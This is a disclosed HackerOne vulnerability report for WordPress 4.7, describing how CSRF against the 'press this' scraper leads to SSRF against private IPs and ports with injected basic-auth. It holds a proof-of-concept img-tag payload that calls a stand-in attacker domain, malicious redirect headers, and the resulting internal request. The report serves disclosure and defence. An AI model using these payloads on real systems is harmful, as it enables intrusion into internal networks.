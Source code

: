 # Wordpress 4.7 - CSRF -> HTTP SSRF any private ip:port and basic-auth

## Report Details
- **Report ID**: 187520
- **URL**: https://hackerone.com/reports/187520
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-12-01T23:02:27.537Z
- **Disclosed**: 2017-11-20T09:59:51.248Z

## Reporter
- **Username**: skansing
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
#Description
This report is a variant on report #110801 but with broader vector.
#110801 was a XSRF SSRF that allowd unintended GET requests to 0.0.0.0 on port 80, 443 and 8080.

This vulnerability uses same entry vector of the `press this` scrape function but entirely bypasses the ip and port filter allowing the SSRF to any ip, port and appending basic-auth headers.

The ip:port bypass is made by forging a CSRF to `wp-admin/press-this.php?u=http://[HOST|IP]` with a **valid** hostname/ip. The valid host will then reply with a crafted header targeting `location: http://[privateip]:[port]` like *192.168.01, 127.0.01:11211 ..* resulting in the final SSRF. The redirect can also include a basic-auth which the server adds as a **Authorization** header.

#PoC
The PoC is very similar to #110801 but with a addition of a valid domain which replies with a redirection header and http code.

Victim has privileges to use press-this of example.com

- Victim has a session running
- Victim gets a payload similar to `<img src="//example.com/wp-admin/press-this.php?u=http://attackers-domain.com&url-scan-submit=Scan" />
- Victim sends a scrape request to attackers-domain.com
- Attackers domain replies with a 302 and a location header 
```
Location: http://192.168.0.1:12345
```
- Server blindly follows redirect and the internal ip gets hit.

This can be escalated by adding a basic auth scheme to the redirect url as
```
Location: http://admin:admin@192.168.0.1:12345
```

Listening to the SSRF on 192.168.0.1 would yield a incoming HTTP from the victims server carrying a basic-auth header crafted towards the internal endpoint.
```
GET / HTTP/1.1
Host: 192.168.0.1:12345
Authorization: Basic YWRtaW46YWRtaW4=
User-Agent: Press This (WordPress/4.7-RC1);
Accept: */*
Accept-Encoding: deflate, gzip
Referer: http://admin:admin@192.168.0.1:12345/
Connection: close
```



## Attachments
No attachments
